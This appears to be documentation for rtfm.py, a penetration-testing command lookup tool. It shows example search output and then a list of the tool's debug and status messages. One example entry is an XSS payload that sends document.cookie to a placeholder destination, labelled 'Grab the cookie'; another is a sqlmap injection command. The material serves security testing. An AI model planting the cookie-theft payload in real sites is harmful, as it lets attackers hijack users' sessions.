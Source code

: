 # Searching the DB
Searching the DB is handled through the following switches: t, c, R, r, a and, A:


-c is search for a command. Use this when you know what command you want to look for, but can't quite remember the syntax. For example, if you want to quickly look up the syntax for a common sqlmap command. Useful for jumping straight to collections of common flags or one liners:
```
19:54:root:rtfm: ./rtfm.py -pP -c 'sqlmap' 
+----------------+--------------------------------------------------------------------------------------------------+
| Added By @yght | Cmd ID : 162                                                                                     |
+----------------+--------------------------------------------------------------------------------------------------+
| Command        | /opt/sqlmap/sqlmap.py --exclude-sysdbs --eta --is-dba  --current-user --current-db --hostname -o |
|                | -r sql1.txt                                                                                      |
|                |                                                                                                  |
| Comment        | SQLmap generic command                                                                           |
| Tags           | sql injection                                                                                    |
| Date added     | 2017-06-19                                                                                       |
| References     | https://github.com/sqlmapproject/sqlmap/wiki/Usage                                               |
+----------------+--------------------------------------------------------------------------------------------------+
```

-t is search for a tag, tags are groups of similar commands, for example, XSS payloads. Use this when wanting a more generic search such as around flaws or around generic Windows commands:
```
19:54:root:rtfm: ./rtfm.py -pP -t xss
+----------------+------------------------------------------------------------------------------------+
| Added By Innes | Cmd ID : 35                                                                        |
+----------------+------------------------------------------------------------------------------------+
| Command        | <script>i = new XMLHttpRequest(); i.open('GET', '[dest]' + document.cookie, true); |
|                | i.send();</script>                                                                 |
|                |                                                                                    |
| Comment        | Grab the cookie                                                                    |
| Tags           | web application                                                                    |
|                | XSS                                                                                |
|                | cookies                                                                            |
| Date added     | 2017-06-19                                                                         |
| References     | https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet                     |
|                | https://excess-xss.com/                                                            |
```

[DEBUG]: Options Set: {'insert': None, 'remark': 'help', 'printer': None, 'dump': None, 'author': 'innes', 'cmd': 'rtfm', 'update': None, 'debug': True, 'tag': 'linux', 'date': '2017-05-10', 'delete': None, 'refer': None}
[DEBUG]: S: SELECT c.cmdid, c.cmd, c.cmnt, c.date, c.author, group_concat(DISTINCT tc.tag), group_concat(DISTINCT ref) FROM tblcommand c JOIN tbltagmap tm ON tm.cmdid = c.cmdid JOIN tbltagcontent tc ON  tc.tagid = tm.tagid JOIN tblrefmap rm ON rm.cmdid = c.cmdid JOIN tblrefcontent rc on rc.id = rm.refid WHERE c.cmd LIKE ?  AND c.cmnt LIKE ?  AND c.author LIKE ?  AND c.date = ? GROUP BY c.cmdid  HAVING  group_concat(tc.tag) like ? 
[DEBUG]: W: ['%rtfm%', '%help%', '%innes%', '2017-05-10', '%linux%']
[DEBUG]: This Returned : [(1, 'rtfm.py -c [command] -t [tag],[tag] -C [comment] -p P', 'Helpception, search for a command with two tags and a comment', '2017-05-10', 'Innes', 'linux', 'https://github.com/leostat/rtfm,https://necurity.co.uk/osprog/2017-02-27-RTFM-Pythonized/index.html')]
[WARNING]: No DB, please run rtfm -u
[OK]: This may appear to hang. Run with debug to get more info
[OK]: Program version information:
[OK]: Your up to date :
[OK]: Added Rows :1
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: Added a new Ref and a refmap
[OK]: Added Rows :1
[OK]: Added tags
[OK]: Added a new tag and a tagmap
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: Added a new Ref and a refmap
[OK]: Added Refs
[OK]: Hopefully added lots of new commands
[OK]: Parsed Line of update
[OK]: Hopefully fixed lots of commands
[OK]: Update complete
[OK]: Added Rows :1
[OK]: Added tags
[OK]: Added tags
[OK]: Added a new Ref and a refmap
[OK]: Added Rows : 2
[OK]: New Top ID : 491 | Number of CMD's Added : 2
[OK]: Added tags
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: This tags everything without tags,  mainly for DB init
[OK]: Enter blank line to commit changes
[WARNING]: Number left :22
[OK]: Command ID : 467
[OK]:         Command    : Test Command
[OK]:         Comment    : My comment
[OK]: v These are known tags